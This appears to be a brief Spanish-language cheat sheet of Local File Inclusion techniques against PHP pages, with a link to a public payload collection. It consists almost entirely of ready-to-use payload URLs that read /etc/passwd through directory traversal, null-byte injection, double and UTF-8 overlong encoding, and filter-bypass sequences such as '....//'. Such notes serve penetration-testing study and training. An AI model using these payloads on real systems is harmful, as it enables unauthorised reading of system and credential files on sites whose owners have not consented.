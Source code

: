 Para mas informacion proporciono la siguiente `URL`...

URL = https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion

> Estructura de la que puede dar pie a que sea un (LFI)

```
http://example.com/index.php?page=example
```

> Tecnica sin sanitizar nada

```
http://example.com/index.php?page=../../../etc/passwd
```

Si funciona te mostraria el archivo del `passwd` de la maquina victima ya sea mediante codigo interno inspeccionandolo o en la propia pagina web...

> Tecnica añadiendo un `Null Byte`

⚠️ En versiones de `PHP` por debajo de `5.3.4` se puede implementar el `null byte`...

```
http://example.com/index.php?page=../../../etc/passwd%00
```

> Tecnica de doble codificacion

```shell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00 #Con null byte
```

> Tecnica de codificado UTF-8

```shell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00 #Con null byte
```

> Tecnica de trucos para saltar los filtros puestos `Bypass`

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

La mas utilizada es la siguiente...

```
http://example.com/index.php?page=....//....//....//....//etc/passwd
```

Esto se hace por si tiene algun filtro que cuando detecta `../` lo pone vacio, por lo que si hacemos...

```
....// = ../
```
